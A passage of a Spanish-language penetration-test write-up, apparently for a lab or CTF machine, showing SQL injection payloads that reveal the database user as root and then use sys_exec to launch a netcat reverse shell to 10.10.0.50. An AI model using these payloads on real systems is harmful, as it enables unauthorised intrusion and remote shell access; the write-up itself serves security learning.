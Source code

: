 ![Identificación de columnas de cadenas de carácteres](images/exploit_7.png)

Podiendo visualizar la información se buscó identificar que usuario de base de datos estaba siendo usado para tratar de asumir con qué permisos se contaba. Usando:

```text
id=2' UNION SELECT 1,user(),'a',4,5 ORDER BY url ASC-- -
```

![Usuario de base de datos](images/exploit_8.png)

Al identificar al usuario `root` se buscó ejecutar directamente una reverse shell con:

```text
id=2' UNION SELECT 1,sys_exec('nc -e /bin/bash 10.10.0.50 1234'),'a',4,5-- -
```

Obteniendo así, acceso a la máquina.

![Acceso a máquina](images/exploit_9.png)


## Post Explotación
